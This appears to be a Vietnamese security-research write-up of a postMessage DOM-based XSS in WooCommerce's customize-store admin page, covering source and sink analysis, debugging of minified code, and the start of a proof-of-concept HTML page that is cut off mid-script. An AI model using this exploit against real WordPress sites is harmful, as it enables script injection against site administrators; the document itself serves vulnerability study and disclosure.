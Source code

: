 {: file="client/admin/client/customize-store/utils.js v9.4.3"}

{{< figure src="dif1.png" caption="Diff — So sánh thay đổi mã nguồn giữa phiên bản vulnerable và bản patched" >}}

### Vulnerable code

Tuy đã tìm ra source và sink, nhưng khi phân tích mã nguồn của plugin sau khi upload tôi lại không tìm được hàm `attachParentListeners()`

{{< figure src="search1.png" caption="Kết quả tìm kiếm attachParentListeners()" >}}

Tôi nghĩ mình đã setup sai nên code không được tải về đầy đủ. Nhưng không, khi tìm với từ khóa `"navigate"` tôi nhận được hàm khác tên có chức năng tương tự `attachParentListeners()`

{{< figure src="search2.png" caption="Kết quả tìm kiếm 'navigate'" >}}

👉 Trong bản product, để tối ưu hóa thời gian tải dữ liệu về trình duyệt, plugin đã dùng kỹ thuật [minification](https://digitalm.sg/seo-terms/minification/) loại bỏ khoảng trắng, đặt tên hàm, biến ngắn và một phần obfuscation làm cho mã khó đọc hơn.

File được tải về có tên `5292.js` chứ không phải `utils.js`. Sau khi làm đẹp code, tôi thấy `5292.js` chứa mã của `utils.js` và nhiều mã từ các file khác.

Truy cập trang `customize-store` và thử gửi **postMessage** bằng console của trình duyệt

```
http://localhost/wp-admin/admin.php?page=wc-admin&path=%2Fcustomize-store
```

{{< figure src="xss1.png" caption="Sự kiện alert() khi postMessage từ console browser" >}}

👉 `alert()` được kích hoạt, sử dụng debug trong trình duyệt để xem `5292.js` được tải trong trình duyệt

{{< figure src="debug1.png" caption="5292.js từ debug của browser" >}}

### Sources & Sinks

* **Source**: `event.data` từ `window.postMessage` (cụ thể `event.data.url`)
* **Sink**: `window.location.href = event.data.url`

## Exploit

### Proof of Concept (PoC)

* Tạo trang web với mã nguồn sau:

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    <button id="openPopup">Open Popup</button>

    <script>
        let popup;

        document.getElementById("openPopup").addEventListener("click", () => {
            // Mở popup
            popup = window.open(
                "http://localhost/wp-admin/admin.php?page=wc-admin&path=%2Fcustomize-store", 
                "popupWindow",
```